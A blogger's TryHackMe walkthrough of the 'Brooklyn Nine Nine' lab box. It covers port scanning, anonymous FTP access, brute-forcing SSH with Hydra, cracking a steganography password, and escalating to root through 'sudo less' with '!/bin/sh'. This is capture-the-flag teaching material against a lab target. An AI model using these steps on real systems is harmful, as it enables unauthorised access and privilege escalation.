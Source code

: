 ```yaml
---
layout: post
title: Brookyln Nine Nine Writeup
categories: [TryHackMe]
tags: [Misconfigured FTP, Steganography, Bruteforce]
---
```

 
# Brooklyn Nine Nine 
This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box. you can check it out here:
[Tryhackme](https://www.tryhackme.com/room/brooklynninenine)

# ~$ Preface::
First off I am personally a huge fan of the show, (Amy is my fav character btw I'm sure yunno why lol) and Its a quite easy one, but no worries if youre stuck I'll walk you through buddy;) but first I'll leave hints to stimulate your mind:
![image](https://github.com/Rami3ll/Rami3ll.github.io/blob/main/assets/img/posts/brooklyn99.jpg)

# ~$ Hints::
- checked source code yet??
- Port 80 exists for a reason yunno?
- Hmph, just a picture? 
- Bruteforcing steg?

First things first, a Portscan so we know our attack surface:

```
┌──(azazel㉿azazel)-[~/Tryhackme/Brooklyn99]
└─$ nmap -sC -sV 10.10.24.94 -Pn -vv -p 1-1024 -T4 --open  
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.45.27
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQjh/Ae6uYU+t7FWTpPoux5Pjv9zvlOLEMlU36hmSn4vD2pYTeHDbzv7ww75UaUzPtsC8kM1EPbMQn1BUCvTNkIxQ34zmw5FatZWNR8/De/u/9fXzHh4MFg74S3K3uQzZaY7XBaDgmU6W0KEmLtKQPcueUomeYkqpL78o5+NjrGO3HwqAH2ED1Zadm5YFEvA0STasLrs7i+qn1G9o4ZHhWi8SJXlIJ6f6O1ea/VqyRJZG1KgbxQFU+zYlIddXpub93zdyMEpwaSIP2P7UTwYR26WI2cqF5r4PQfjAMGkG1mMsOi6v7xCrq/5RlF9ZVJ9nwq349ngG/KTkHtcOJnvXz
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBItJ0sW5hVmiYQ8U3mXta5DX2zOeGJ6WTop8FCSbN1UIeV/9jhAQIiVENAW41IfiBYNj8Bm+WcSDKLaE8PipqPI=
|   256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP2hV8Nm+RfR/f2KZ0Ub/OcSrqfY1g4qwsz16zhXIpqk
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Perfect, port 21, 22 and 80, ftp, ssh and http all present, lets get to it then...

# ~$ First Intended method::
Got anon logins allowed on ftp, so, swiftly I log in to "get" the file we see from our script scan: "note_to_jake.txt" where Amy gives us a clear hint(See why I like her?)::

```
┌──(azazel㉿azazel)-[~/Tryhackme/Brooklyn99]
└─$ ftp 10.10.24.94
Connected to 10.10.24.94.
220 (vsFTPd 3.0.3)
Name (10.10.24.94:azazel): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.00 secs (378.5372 kB/s)
```
I read the file and get the clue that Jake is using weak creds(Classic Jake), 
```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
hehee I let Hydra do his thing::
![image](https://github.com/Rami3ll/Rami3ll.github.io/blob/main/assets/img/posts/B991edit.png)

Welp, Jake was not the root user and the user.txt is also not his or in his home directory, I navigated to Holt's and found the user.txt flag,  
before scp or wget...ing any Privesc script I like to manually check for LPE vectors apparently we have sudo permissions to use "less". [gtfobins](https://gtfobins.github.io/) says we can use this for privesc like so::

![image](https://github.com/Rami3ll/Rami3ll.github.io/blob/main/assets/img/posts/b99Privesc.png)
next::
```
sudo less /etc/profile 
```
And append 
```
!/bin/sh
```
And thats it we are root! read the file, submit the flags.

Why this was fun is because it made me understand the relevance of the /etc/profile config file, it is basically a root owned folder that is ran on login of any user as a child process of systemd(like all processes are) that controls system-wide default variables especially terminal type in our case scenerio, us having priviledged access to the "less" command utility which provides a "vim or a vim-like interface" to read files and edit binaries, leveraging that allowed us carry out command operations within the file with the "less" binary allowing us spawn a root shell.



# ~$ Second Intended Method
Won't be posting images to display cause I forgot to document this part lol, but its pretty basic, I'll give the steps here ;
- Visited port 80 and checked source code which gave the clue:
 ```
 Have you ever head of steganography?
 ```
- Downloaded the image being served on port 80 through the server, Yes the seemingly unsuspecting image.
 Tried a 2 common passwords and failed swiftly and then decided to google-fu a little for tools to bruteforce a steg image and found two: stegcracker and stegseek, although stegseek is more revered due to speed I prefer stegcracker on multithread mode :)
 
- Then I used Stegcracker:
```
sudo apt install stegcracker
```
![image](https://github.com/Rami3ll/Rami3ll.github.io/blob/main/assets/img/posts/steg-bb9.png)

- cat the output file, from using the pass to extract the steg image and it gives us this::
``` 
Holts Password:
fl#################e

Enjoy!!
```
- It gives us Holts ssh creds, I log in, Holt has a different sudo permission used [gtfobins](https://gtfobins.github.io/) and got root!
And thats it!


Greetings, from [Rami3l](https://www.tryhackme.com/p/Rami3l).



